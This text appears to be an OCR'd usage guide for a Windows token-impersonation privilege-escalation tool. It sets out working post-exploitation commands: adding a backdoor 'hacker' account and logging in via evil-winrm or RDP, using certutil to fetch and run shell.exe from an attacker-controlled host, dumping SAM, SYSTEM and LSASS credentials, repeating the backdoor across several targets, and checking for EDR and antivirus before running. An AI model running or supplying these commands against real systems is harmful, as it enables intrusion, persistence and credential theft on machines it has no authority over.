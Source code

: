 # Method 1: Create user then WinRM
.\TokenImpersonate.exe 540 adduser hacker Pass123!
evil-winrm -i 192.168.19.135 -u hacker -p Pass123!

# Method 2: Use tool to download and execute
# First spawn SYSTEM cmd:
.\TokenImpersonate.exe auto
# In SYSTEM cmd:
certutil -urlcache -f http://192.168.19.128:8000/shell.exe C:\Windows\Tasks\s.exe
C:\Windows\Tasks\s.exe

# Method 3: Enable RDP and GUI access
.\TokenImpersonate.exe 540 rdp
.\TokenImpersonate.exe 540 adduser hacker Pass123!
xfreerdp /v:192.168.19.135 /u:hacker /p:Pass123!
11. Rapid Reconnaissance
powershell# Quick wins after getting SYSTEM
.\TokenImpersonate.exe auto

# In SYSTEM cmd that opens:
# Dump SAM
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save

# Check for interesting files
dir /s /b C:\*password*.txt
dir /s /b C:\*config*.xml

# Dump LSASS (requires admin)
procdump.exe -ma lsass.exe lsass.dmp
12. Multi-Target Operations
powershell# Create user on multiple targets
$targets = @("192.168.19.135", "192.168.19.136", "192.168.19.137")

foreach ($target in $targets) {
    evil-winrm -i $target -u admin -p pass -e . -s . -c ".\TokenImpersonate.exe 540 adduser hacker Pass123!"
}
13. Know Your Environment
powershell# Check for EDR/AV before running
Get-Service | Where {$_.DisplayName -like "*defender*" -or $_.DisplayName -like "*antivirus*"}
Get-Process | Where {$_.ProcessName -like "*sentinel*" -or $_.ProcessName -like "*carbon*"}
